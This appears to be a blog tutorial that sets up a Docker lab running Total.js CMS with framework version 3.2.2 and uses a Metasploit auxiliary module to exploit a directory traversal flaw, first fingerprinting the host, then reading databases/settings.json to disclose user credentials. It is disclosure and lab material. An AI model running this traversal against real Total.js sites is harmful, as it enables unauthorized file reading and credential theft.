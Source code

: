 ```yaml
---
layout: default
---
```


# Total.js Directory Traversal: try this at home

[Total.js](https://www.totaljs.com) is a framework for Node.js platfrom written in pure JavaScript similar to PHP's Laravel or Python's Django or ASP.NET MVC. It can be used as web, desktop, service or IoT application.

Affected versions of this framework are vulnerable to Directory Traversal. This attack, also known as Path Traversal, aims to access files and directories that are stored outside the intended folder.

Follows a Proof of Concept that exploit this vulnerable within the Total.js CMS in order to disclose users credentials.

## Labs setup
The most fashion and easy way to try the vulnerability is [docker](https://www.docker.com). With docker we setup a testing lab.

Create a directory where store image source.

```
root@kali:~# mkdir totaljs
```

cd into the new directory and download the Total.js CMS

```
root@kali:~# cd totaljs && git clone https://github.com/totaljs/cms.git
root@kali:~# mkdir totaljs
```
Then, create the `dockerfile` and open it with your favorite editor (e.g.: `nano dockerfile`). This file allow us to create an image from a node v8 image, install Total.js framework and copy the Total.js CMS in it:

```
FROM node:8
WORKDIR /home/node/totaljs
COPY cms/package*.json ./
RUN npm install
COPY cms/ .
RUN npm install total.js@3.2.2
EXPOSE 8000
CMD ["node","debug.js"]
```
Ok, now build the new image:

```
root@kali:~# docker build -t totaljs:3.2.2 .
```
When the build process finished, run a container with the totaljs image

```
root@kali:~# docker run -p 8322:8000 totaljs:3.2.2 --name totaljs-3.2.2
```

Now browse to [http://localhost:8322/](http://localhost:8322/).

## Exploiting the vuln!

In order to exploit the vulnerability, setting up the metasploit module as indicated in the [README.md](github.com/fabiocogno/metasploit-modules/README.md) file.

Start Metasploit console:

```
root@kali:~# msfconsole
```
When started, select the module:

```
msf5 auxiliary(scanner/http/totaljs_traversal) > use auxiliary/scanner/http/totaljs_traversal
```
Now, set the host and the port to exploit

```
msf5 auxiliary(scanner/http/totaljs_traversal) > set rhost localhost
msf5 auxiliary(scanner/http/totaljs_traversal) > set rport 8322
```
The default `ACTION` is check that reveale if the host:port is vulnerable and than disclose the framework version and some other useful informations:
```
msf5 auxiliary(scanner/http/totaljs_traversal) > run
```
We can see an output like this one:

```
[*] Total.js version is: ^3.2.2
[*] App name: CMS
[*] App description: A simple and powerful CMS solution written in Total.js / Node.js.
[*] App version: 12.0.0
[*] Auxiliary module execution completed
```
Ok, our total.js testing container is vulnerable and the framework version is, strangely, 3.2.2..

As promised, we exploit this vulnerability in order to disclose the users credentials of the Total.js CMS. To do this, we can use the `READ` action:

```
msf5 auxiliary(scanner/http/totaljs_traversal) > set action READ
```
And then set up the `databases/settings.json` and try to retrieve it from the CMS directory:

```
msf5 auxiliary(scanner/http/totaljs_traversal) > set FILE databases/settings.json
FILE => databases/settings.json
msf5 auxiliary(scanner/http/totaljs_traversal) > run
```

## Thanks

Special thanks to Riccardo Krauter for the vulnerability discovery and Fabio Cogno for the module development.

